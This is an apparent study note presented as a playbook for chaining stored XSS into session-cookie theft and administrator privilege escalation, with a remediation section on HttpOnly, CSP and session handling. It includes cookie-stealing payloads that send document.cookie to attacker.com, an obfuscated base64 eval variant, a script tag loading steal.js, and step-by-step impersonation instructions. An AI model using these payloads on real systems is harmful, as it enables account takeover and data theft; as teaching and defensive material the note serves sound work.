

# Vulnerability Chaining Playbook: XSS to Session Hijacking to Privilege Escalation

## 1. Introduction and Theoretical Foundation

While modern web security emphasizes complex attack chains, the classic progression of Cross-Site Scripting (XSS) leading directly to Session Hijacking remains a critical threat, particularly in legacy applications or misconfigured modern environments.

The foundation of HTTP is stateless. To maintain identity across multiple requests, web applications use session identifiers, typically stored in cookies. If an attacker can obtain a valid, active session identifier belonging to another user, they can completely impersonate that user without needing their username, password, or multi-factor authentication (MFA) tokens.

When an application suffers from an XSS vulnerability and fails to implement secure cookie flags (specifically, the `HttpOnly` flag), an attacker can use injected JavaScript to read the session cookie via the `document.cookie` API.

This attack becomes a Privilege Escalation (PrivEsc) vector when the XSS payload is targeted at, or inadvertently executed by, a user with higher privileges than the attacker (e.g., a low-privileged user injecting a payload viewed by an Administrator). This is known as Vertical Privilege Escalation.

## 2. Phase 1: Identifying the Vulnerability Matrix

For this specific chain to be viable, two conditions must be met simultaneously:
1.  **XSS Vulnerability:** The application must allow the execution of arbitrary JavaScript. Stored XSS is ideal, but Reflected XSS delivered via phishing is also effective.
2.  **Missing `HttpOnly` Flag:** The session cookie (e.g., `JSESSIONID`, `PHPSESSID`, `session`) must not have the `HttpOnly` flag set.

### 2.1 The `HttpOnly` Flag Explained

The `HttpOnly` flag is a directive added to the `Set-Cookie` HTTP response header. It instructs the browser that the cookie should *only* be accessed by the server during HTTP requests. Crucially, it forbids client-side scripts (JavaScript) from accessing the cookie via `document.cookie`.

```http
# Vulnerable Configuration
Set-Cookie: session=abc123xyz; Path=/; Secure

# Secure Configuration
Set-Cookie: session=abc123xyz; Path=/; Secure; HttpOnly
```

If the `HttpOnly` flag is absent, the session cookie is vulnerable to theft via XSS.

## 3. Phase 2: Developing the Hijacking Payload

The attacker's goal is to craft an XSS payload that reads the `document.cookie` string, extracts the sensitive session identifier, and transmits it to a server controlled by the attacker.

### 3.1 The Basic Payload

The simplest form of session hijacking involves forcing the browser to make a request to the attacker's server, appending the cookies as a URL parameter.

```html
<script>
  // Create an image object in memory (invisible to the user)
  var img = new Image();
  // Set the source to the attacker's server, appending the victim's cookies
  img.src = 'https://attacker.com/log?cookie=' + encodeURIComponent(document.cookie);
</script>
```

### 3.2 Advanced Payloads and Evasion

Modern WAFs might block simple `<script>` tags or keywords like `document.cookie`. Attackers use various evasion techniques:

*   **DOM-Based Delivery:**
    ```html
    
    ```
*   **Obfuscation:**
    ```javascript
    // Hex encoded document.cookie
    eval(atob('ZmV0Y2goJ2h0dHBzOi8vYXR0YWNrZXIuY29tL2xvZz9jPScrd2luZG93Wydkb2N1bWVudCddWydjb29raWUnXSk='));
    ```

## 4. Phase 3: Execution and Privilege Escalation

This phase details how a low-privileged attacker leverages the vulnerability to gain administrative access.

1.  **Reconnaissance & Targeting:** The attacker logs in as a normal user. They identify a feature where their input will be viewed by an administrator. This could be an application log, a user profile waiting for approval, or an internal support messaging system.
2.  **Injection:** The attacker inputs the crafted XSS payload into the targeted field.
    `"Help, my account is locked! <script src=https://attacker.com/steal.js></script>"`
3.  **The Wait:** The payload sits dormant in the database (Stored XSS).
4.  **Admin Interaction:** A system administrator logs into the backend dashboard to review user tickets.
5.  **Execution & Exfiltration:** The administrator's browser renders the ticket containing the malicious script. The script executes within the context of the admin's highly privileged session. It reads `document.cookie` and sends the admin's session ID to `attacker.com`.
6.  **Session Hijacking (The PrivEsc):** The attacker monitors their server logs and retrieves the stolen session ID.
    `GET /log?cookie=session=ADMIN_SUPER_SECRET_ID`
7.  **Impersonation:** The attacker opens their browser, navigates to the target application, and uses browser developer tools or an extension (like EditThisCookie) to replace their own low-privileged session cookie with the stolen `ADMIN_SUPER_SECRET_ID`.
8.  **Complete Compromise:** The attacker refreshes the page. The application authenticates them based on the stolen session ID. The attacker is now logged in as the Administrator, achieving vertical privilege escalation and total system control.

## 5. Architecture and Attack Flow Diagram



## 6. Defensive Strategies & Remediation

*   **The `HttpOnly` Flag (Critical):** This is the single most effective defense against XSS-based session hijacking. Every session identifier, authentication token, or sensitive cookie MUST have the `HttpOnly` flag set to `true`. This creates a hard barrier between client-side scripts and the session token.
*   **XSS Mitigation:** Address the root cause. Implement strict output encoding and utilize robust, context-aware templating engines (e.g., React, Vue, Jinja2 with autoescaping). Deploy a strong Content Security Policy (CSP) to restrict inline scripts and unauthorized external domains.
*   **Session Management Best Practices:**
    *   **Short Session Lifetimes:** Implement absolute and idle timeouts to reduce the window of opportunity for a stolen session.
    *   **Session Binding:** Bind the session to the user's IP address or TLS client certificate. If a session ID is suddenly presented from a different IP address, invalidate it immediately.
    *   **Regenerate Session IDs:** Always regenerate the session ID upon any privilege level change (e.g., upon login, or elevating to admin via `sudo`-like features).
*   **Consider Web Storage carefully:** Do not store sensitive tokens (like JWTs) in `localStorage` or `sessionStorage`. Unlike cookies, these storage mechanisms cannot be protected by an `HttpOnly` equivalent and are always accessible to JavaScript.

## 7. Chaining Opportunities
- **[[04 - XSS CSRF Admin Account Takeover]]**: If the `HttpOnly` flag IS set, preventing session hijacking, the attacker must pivot back to using the XSS payload to execute a CSRF attack to forge requests instead of stealing the session directly.
- **[[17 - File Upload to Remote Code Execution (RCE)]]**: Once the attacker has hijacked an administrative session, they can often access restricted areas of the application, such as plugin uploads or theme editors, which can then be exploited to upload web shells and achieve full server compromise (RCE).

## 8. Related Notes
- [[13 - Advanced Cross-Site Scripting (XSS) Vectors]]
- [[18 - Secure Cookie Configuration]]
- [[19 - Session Management Vulnerabilities]]
- [[20 - Exploiting Web Storage (localStorage)]]
